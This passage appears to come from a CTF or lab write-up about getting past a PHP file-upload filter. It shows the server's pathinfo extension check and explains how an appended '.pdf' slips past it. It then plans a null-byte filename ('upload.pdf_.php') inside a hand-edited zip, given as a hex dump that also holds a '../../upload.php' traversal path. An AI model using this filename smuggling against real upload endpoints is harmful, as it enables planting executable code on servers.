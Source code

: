 ```php
    } else {
        echo "Error uploading file.";
    }

    }
}
?>
```

Following line is what we are mostly interested in. The pathinfo function operates on the path itself and does not verify [magic numbers](https://en.wikipedia.org/wiki/List_of_file_signatures). So just appending pdf to any file  would bypass this check. And indeed uploading an archive containing `test.php.pdf` was successful.

```php
if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf")
```

Unfortunately the server does not execute the php. Sometimes an apache misconfiguration could lead to a different file handling. While the PHP script checks the suffix, the server might interpret a file based on the first extension after `.` This was not the case here. So we need to find a way to create a file that somehow break when the archive is extracted. \
Checking some online ressources a found a list of special characters and bytes such as the null terminator (\x00). Creating a file in linux containing this null terminator was challenging. So I decided to just create a filename that contains a placeholder and change the filename after creating the zip archive.\
This could be done by using an hex editor like hexedit. Heres an dump of an archive containing the file `upload.pdf_.php`. The `_` is a filler we want to replace with the null terminator `\xx`.

```console
50 4B 03 04  0A 00 00 00  00 00 EA 60  21 57 B9 31  E2 D4 10 00  00 00 10 00  PK.........`!W.1........
00 00 0A 00  1C 00 75 70  6C 6F 61 64  2E 70 64 66  55 54 09 00  03 38 0C F2  ......upload.pdf_.phpUT...8..
64 3E 0C F2  64 75 78 0B  00 01 04 E8  03 00 00 04  E8 03 00 00  2E 2E 2F 2E  d>..dux.............../.
2E 2F 75 70  6C 6F 61 64  2E 70 68 70  50 4B 01 02  1E 03 0A 00  00 00 00 00  ./upload.phpPK..........
EA 60 21 57  B9 31 E2 D4  10 00 00 00  10 00 00 00  0A 00 18 00  00 00 00 00  .`!W.1..................
00 00 00 00  FF A1 00 00  00 00 75 70  6C 6F 61 64  2E 70 64 66  55 54 05 00  ..........upload.pdf_.phpUT..
03 38 0C F2  64 75 78 0B  00 01 04 E8  03 00 00 04  E8 03 00 00  50 4B 05 06  .8..dux.............PK..
00 00 00 00  01 00 01 00  50 00 00 00  54 00 00 00  00 00                     ........P...T.....
```

The zip defines the names of the containing files at the file content location as well as in the so called central directory towards the end of the file.
Uploading that zip file and pray...
\